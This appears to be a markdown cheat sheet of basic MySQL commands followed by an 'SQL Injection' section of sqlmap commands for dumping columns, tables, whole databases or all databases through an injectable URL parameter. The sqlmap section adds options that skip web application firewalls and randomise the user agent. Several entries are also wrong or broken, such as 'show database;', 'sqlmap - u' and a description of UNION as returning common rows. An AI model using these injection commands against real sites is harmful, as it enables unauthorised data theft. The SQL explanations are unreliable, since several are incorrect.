 
						<h1>SQL</h1>


<h3>Basic Commands Mysql</h3>
`create database d1; `	**TO CREATE DATABASE
`show database; 			  `		**TO SHOW ALL DATABASES
`use database-name;                       `    		**TO USE DATABASE
`drop database d1;		       	  `		**TO DELETE DATABASE
`create table t1(name char(20), age int );`		**TO CREATE TABLE WHERE name, age IS COLUMN RESPECTED DATA TYPE char, int 
`insert t1 values("name",20);             ` 	  	**TO INSERT VALUES INTO TABLE 
`show tables;			       	  `		**TO SHOW TABLES	
`delete from t1;                          `             **TO DELETE ALL STORED DATA IN TABLE
`drop table  t1, t2;                      `	        **TO DELETE TABLE
`alter table t1 add Column-Name char(20); `		**TO ADD NEW COLUMN IN TABLE
`alter table t1 drop Column-Name;         `		**TO DELETE COLUMN IN TABLE


<h3>Advance Commmands Mysql</h3>
`set password for user@localhost=password('password');` **TO SET OR RESET PASSWORD
`commit;`						**TO MAKE CHANGES PUBLICLY OF DATABASE'S DATA
`update t1 SET name='test' where age=20;              ` **TO CHANGE DATA IN COLUMN

**Some Operation Mysql**
* Union - Operation to fetch common output between two queries. but the number of columns and the data type of column's must be same to the both side of UNION
  `select name,age from t1 union select nickname, id from t2;`





					<h1>SQL Injection</h1>


<h5>SQLmap Usage</h5>

**TO FETCH ONLY COLUMN'S DATA
`sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump` 

**TO FETCH ONLY ALL COLUMN & ITS DATA
`sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

**TO FETCH ENTIRE DATABASE'S DATA 		     
`sqlmap - u "url?prm=" -p prm -D dbname  --dump`

**TO FETCH ALL DATABASES
`sqlmap - u "url?prm=" -p prm --dbs  --dump` 
or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

